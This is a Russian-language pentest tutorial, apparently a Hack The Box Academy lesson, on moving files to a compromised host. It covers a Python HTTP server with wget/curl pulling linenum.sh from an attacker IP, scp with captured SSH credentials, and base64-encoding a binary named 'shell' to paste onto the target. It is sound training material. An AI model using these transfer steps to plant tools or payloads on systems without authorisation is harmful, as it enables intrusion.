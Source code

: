 # Transferring Files

Во время любого упражнения по тестированию на проникновение вполне вероятно, что нам потребуется передать файлы на удаленный сервер, такие как скрипты перечисления или эксплойты, или передать данные обратно на наш атакующий узел. Хотя такие инструменты, как Metasploit с оболочкой Meterpreter, позволяют нам использовать команду «`Upload`» для загрузки файла, нам необходимо изучить методы передачи файлов с помощью стандартной обратной оболочки.

## Using wget

Для этого есть много способов. Один из методов - запуск [HTTP-сервера Python](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/set_up_a_local_testing_server) на нашем компьютере, а затем использование wget или cURL для загрузки файла на удаленный хост. Сначала мы переходим в каталог, содержащий файл, который нам нужен для передачи, и запускаем в нем HTTP-сервер Python:

```text
spike@htb[/htb]$ cd /tmp
spike@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Теперь, когда мы настроили слушающий сервер на нашей машине, мы можем загрузить файл на удаленный хост, на котором у нас выполняется код:

```text
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
```

Обратите внимание, что мы использовали наш IP 10.10.14.1 и порт, на котором работает наш сервер Python на 8000. Если на удаленном сервере нет wget, мы можем использовать cURL для загрузки файла:

```text
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```

Обратите внимание, что мы использовали флаг -o, чтобы указать имя выходного файла.

## Using SCP

Другой метод передачи файлов - использование scp, если мы получили учетные данные пользователя ssh на удаленном хосте. Сделать это можно следующим образом:

```text
spike@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```

Обратите внимание, что мы указали имя локального файла после scp, а удаленный каталог будет сохранен после `:`.

## Using Base64

В некоторых случаях мы не сможем передать файл. Например, удаленный хост может иметь защиту брандмауэра, которая не позволяет нам загрузить файл с нашей машины. В такой ситуации мы можем использовать простой трюк для кодирования файла [base64](https://linux.die.net/man/1/base64) в формат [base64](https://linux.die.net/man/1/base64), а затем мы можем вставить строку [base64](https://linux.die.net/man/1/base64) на удаленный сервер и декодировать ее. Например, если мы хотим передать двоичный файл с именем shell, мы можем кодировать его в base64 следующим образом:

```bash
spike@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA...SNIO...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

Теперь мы можем скопировать эту строку base64, перейти на удаленный хост, использовать base64 -d для ее декодирования и передать вывод в файл:

```bash
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA...SNIO...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

## Validating File Transfers

Чтобы проверить формат файла, мы можем запустить для него команду [file](https://linux.die.net/man/1/file):

```bash
user@remotehost$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

Как мы видим, когда мы запускаем команду file для файла оболочки, она говорит, что это двоичный файл ELF, что означает, что мы успешно его передали. Чтобы убедиться, что мы не испортили файл во время процесса кодирования / декодирования, мы можем проверить его хеш md5. На нашей машине мы можем запустить md5sum:

```bash
spike@htb[/htb]$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

Теперь мы можем перейти на удаленный сервер и выполнить ту же команду для переданного файла:

```bash
user@remotehost$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

Как мы видим, оба файла имеют одинаковый хэш md5, что означает, что файл был передан правильно. Существуют различные другие методы передачи файлов.


